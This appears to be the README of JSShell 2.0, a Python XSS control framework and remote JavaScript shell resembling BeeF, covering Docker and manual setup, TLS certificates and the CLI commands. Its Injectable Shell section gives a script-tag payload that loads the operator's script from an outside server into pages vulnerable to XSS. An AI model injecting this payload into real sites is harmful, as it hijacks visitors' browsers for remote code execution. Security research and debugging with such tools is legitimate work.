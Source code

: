 # JSShell 2.0

[![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)](https://www.python.org/)
[![Generic badge](https://img.shields.io/badge/docker-friendly-blue.svg)](https://shields.io/)
[![Generic badge](https://img.shields.io/badge/python-3.6+-green.svg)](https://shields.io/)

An interactive multi-user web based javascript shell. It was initially created in order to debug remote 
esoteric browsers during experiments and research. This tool can be easily attached to XSS (Cross Site Scripting)
payload to achieve browser remote code execution (similar to the BeeF framework).

Version 2.0 is created entirely from scratch, introducing new exciting features, stability and maintainability.

###### Version: 2.0

## Author
[Daniel Abeles](https://twitter.com/Daniel_Abeles).

### Shell Video
[![asciicast](https://asciinema.org/a/217167.png)](https://asciinema.org/a/217167)

## Features
* Multi client support
* Cyclic DOM objects support
* Pre flight scripts
* Command Queue & Context
* Extensible with Plugins
* Injectable via `<script>` tags
* Dumping command output to file
* Shell pagination
* HTTPS support! [![Generic badge](https://img.shields.io/badge/new-green.svg)](https://shields.io/)


## Installation & Setup

### Config File
In the `resources` directory, update the `config.json` file with your desired configuration:
* Database host - if running with the `docker` deployment method, choose the database host as `db` 
(which is the internal host name).
* Return URL - the URL which the requests will follow. The `shell.js` file does some AJAX calls to register and poll
for new commands. Usually it will be `http[s]://{YOUR_SERVER_IP}:{PORT}`.
* Startup script - a script that runs automatically when the JSShell CLI client is spawned.
* Domain - if you desire to generate TLS certificates, this is the domain name the server will use.
* It is also possible to point at a remote database if desired.


### Let's Encrypt
Now JSShell supports TLS, which means you can now generate TLS certificates and feed them to the web server.
The web server will infer the domain name from the `config.json` file. In order to create the certificate,
use the `create_cert.py` script in the `scripts` folder:

```bash
$ cd scripts
$ python create_cert.py --domain <YOUR_DOMAIN> --email <YOUR_EMAIL>
```

##### the email field is optional.

Please note that the web server must be down in order for the script to function properly. At this point, we have
successfully generated our certificates! The sole modifications we need to do are:
* In the `config.json` file, change the schema of the `URL` field to `https`.
* In the `docker-compose.yml` file change the exposed port of the `web` container to `443`.


### Docker
This new version supports installing and running JSShell via `docker` and `docker-compose`. Now, to install and run the
entire JSShell framework, simply run:

```bash
$ ./scripts/start_docker_shell.sh
```

This will:
- Start and create the database in the background
- Start the web API server that handles incoming connections in the background
- Spawn a new instance of the `JSShell` command line interface container

### Regular
If you still want to use the old fashion method of installing, simply make sure you have a `MongoDB`
database up and running, and update the `config.json` file residing in the `resources` directory.

I recommend using a virtual environment with `pyenv`:
```bash
$ pyenv virtualenv -p python3.6 venv
$ pyenv activate venv
```

Or using `virtualenv`:

```bash 
$ virtualenv -p python3.6 venv
$ source venv/bin/activate
```

Then, install the requirements:
```bash
$ pip install -r requirements.txt
```

## Running
If you used the `docker` method, there's no need to run the following procedure.

### Web Server
Otherwise, once we have the database setup, we need to start the web API server. To do, run:
```bash
$ python manage.py web
```

This will create and run a web server that listens to incoming connections and serves our JSShell code. 

### Shell
Now to start the JSShell CLI, run the same script but now with the `shell` flag:
```bash
$ python manage.py shell
```

## Usage
After setup and running the required components, enter the `help` command to see the available commands:
```
     ╦╔═╗┌─┐┬ ┬┌─┐┬  ┬  
     ║╚═╗└─┐├─┤├┤ │  │  
    ╚╝╚═╝└─┘┴ ┴└─┘┴─┘┴─┘ 2.0     
        by @Daniel_Abeles
    
>> help

Documented commands (type help <topic>):

General Commands
--------------------------------------------------------------------------------
edit                Edit a file in a text editor
help                List available commands or provide detailed help for a specific command
history             View, run, edit, save, or clear previously entered commands
ipy                 Enter an interactive IPython shell
py                  Invoke Python command or shell
quit                Exit this application

Shell Based Operations
--------------------------------------------------------------------------------
back                Un-select the current selected client
clients             List and control the clients that have registered to our system
commands            Show the executed commands on the selected client
dump                Dumps a command to the disk
execute             Execute commands on the selected client
select              Select a client as the current client

>> 
```

## Flow
JSShell supports 2 methods of operation:
1. Injectable Shell (similar to BeeF framework)
2. Hosted Shell (for debugging)

### Injectable Shell
Similar to other XSS control frameworks (like BeeF), JSShell is capable of managing successful XSS exploitations.
In example, if you can inject a `script` tag, inject the following resource to your payload, and a new client will 
appear in your console: 

`<script src="http[s]://{YOUR_SERVER_IP}:{PORT}/content/js"></script>`

### Hosted Shell 
If you desire to debug exotic and esoteric browsers, you can simply navigate to `http[s]://{YOUR_SERVER_IP}:{PORT}/` and
a new client will pop up into your JSShell CLI client. Now it is debuggable via our JSShell console.

## Credits
[Canop](https://github.com/Canop) for [JSON.prune](https://github.com/Canop/JSON.prune/)



###### use it at your own responsibility and risk.
